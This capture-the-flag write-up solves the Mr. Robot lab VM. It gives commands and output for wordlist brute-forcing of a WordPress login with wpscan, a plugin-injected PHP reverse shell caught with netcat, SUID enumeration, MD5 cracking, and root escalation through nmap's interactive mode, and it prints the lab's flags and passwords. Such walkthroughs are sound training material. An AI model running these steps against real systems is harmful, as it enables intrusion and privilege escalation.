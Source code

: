 DESCRIPTION
{% highlight text %}
Based on the show, Mr. Robot.

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.

The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.
{% endhighlight %}
nmap
{% highlight terminal %}
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
{% endhighlight %}

Checking the source code on the site shows that this is a wordpress based website. 

{% highlight text %}
robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
{% endhighlight %}

let's wget the dictionary 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ wget http://192.168.56.129/fsocity.dic 
{% endhighlight %}

guessing that the user is called elliot thanks to a leak in the wordpress login page

using wpscan to bruteforce the login for user elliot
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ wpscan --url http://192.168.56.129/ -U elliot -P fsocity.dic
{% endhighlight %}

This will take a while due to the duplicates in the file let's trim it with uniq:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ sort fsocity.dic | uniq | wc -l                                              2 ⨯
11451
                                                                                    
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ sort fsocity.dic | uniq > fsoc.uniq.dic 
{% endhighlight %}

using the new word list 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ wpscan --url http://192.168.56.129/ -U elliot -P fsoc.uniq.dic  

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
{% endhighlight %}


Log into the instance to upload a PHP reverse TCP shell (pentest monkey) by
injecting code into the Dolly plugin.
 
Activate the plugin after setting up a netcat listener: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ nc -lp 6666            
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 09:54:51 up 39 min,  0 users,  load average: 0.00, 0.09, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}

getting a low privilege interactive shell on the system: 
{% highlight terminal %}
$ python3 --version
Python 3.4.0
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
daemon@linux:/$ 
{% endhighlight %}

enumerating SUID binaries on the system
{% highlight terminal %}
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
daemon@linux:/$
{% endhighlight %}

nmap jumps out at me. can daemon run it? maybe robot can run it to escalate privileges later on. 

poking around in the robot users home directory
{% highlight terminal %}
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 
{% endhighlight %}

Let's see if crackstation has that md5 cracked. Yes: abcdefghijklmnopqrstuvwxyz

switching to user robot and getting the second flag:
{% highlight terminal %}
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
{% endhighlight %}

Getting the second flag:
{% highlight terminal %}
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
{% endhighlight %}


As asserted before, the robot user can use nmap. When run in interactive mode, we 
can drop into a bash shell using the following set of commands: 
{% highlight terminal %}
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# 
{% endhighlight %}

Getting the final flag: 
{% highlight terminal %}
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
{% endhighlight %}
 
